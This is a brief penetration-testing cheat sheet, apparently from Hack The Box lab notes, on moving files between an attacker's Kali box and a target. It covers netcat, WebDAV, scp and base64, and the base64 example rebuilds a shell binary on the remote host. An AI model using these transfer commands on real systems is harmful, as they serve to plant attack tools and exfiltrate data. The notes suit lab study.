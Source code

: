 # FILE TRANSFER
192.168.45.218#nc

```
kali
nc -l -p [port] > out.file

target
nc [destination ip] [destination port] < out.file
```

#webdav
```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

#scp
```
scp [file] [user]@[ip]:[destination location]
```

#http_server

#base64 
```shell-session
gyrsec@htb[/htb]$ base64 shell -w 0

user@remotehost$ echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAA... ...lIuy9iaW4vc2gAU0iJ51JXSInmDwU | base64 -d > shell
```
